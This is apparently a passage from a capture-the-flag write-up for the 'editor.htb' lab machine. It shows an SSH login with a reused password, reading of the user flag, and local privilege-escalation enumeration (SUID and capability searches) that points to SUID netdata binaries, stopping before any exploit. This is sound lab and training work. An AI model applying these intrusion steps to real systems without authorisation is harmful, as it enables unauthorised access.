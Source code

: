 ### SSH Access

- Tested credential reuse for SSH access (only user present: `oliver`):

```bash
ssh oliver@editor.htb
Password: theEd1t0rTeam99
```


- User flag:


```bash
cat /home/oliver/user.txt
# b814815<REDACTED>
```

---
## 4. Privilege Escalation

### System Info

```bash
whoami && id
```

```
oliver
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```


```bash
hostname && uname -a
```

```bash
Linux editor 5.15.0-151-generic #161-Ubuntu SMP Tue Jul 22 14:25:40 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
```

---
### SUID & Capabilities

```bash
sudo -l
```

```
Sorry, user oliver may not run sudo on editor.
```


```bash
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
```

```bash
<SNIP>
-rw-r--r-- 1 root root        6860 Apr  1  2024 loopsleepms.sh.inc
-rwsr-x--- 1 root netdata   200576 Apr  1  2024 ndsudo
-rwsr-x--- 1 root netdata  1377624 Apr  1  2024 network-viewer.plugin
-rwsr-x--- 1 root netdata   896448 Apr  1  2024 nfacct.plugin
<SNIP>
```
